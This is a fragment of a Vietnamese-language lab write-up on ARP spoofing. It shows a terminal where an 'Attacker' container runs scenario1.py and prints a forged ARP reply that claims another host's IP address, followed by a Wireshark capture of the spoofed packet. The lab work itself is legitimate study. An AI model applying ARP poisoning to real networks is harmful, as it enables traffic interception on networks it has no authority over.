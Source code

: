 - Sau khi chọn được card mạng đúng, thực hiện tấn công trên máy Attacker:
```bash
root@81ecd9dd554d:/tmp# python3 scenario1.py
###[ Ethernet ]###
  dst       = 02:42:0a:3d:07:0a
  src       = 02:42:0a:3d:07:33
  type      = ARP
###[ ARP ]###
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = None
     plen      = None
     op        = is-at
     hwsrc     = 02:42:0a:3d:07:33
     psrc      = 10.61.7.20
     hwdst     = 02:42:0a:3d:07:0a
     pdst      = 10.61.7.10

.
Sent 1 packets.
root@81ecd9dd554d:/tmp#
```

- Ở WireShark thu được gói tin ARP giả mạo

![alt text](image-16.png)
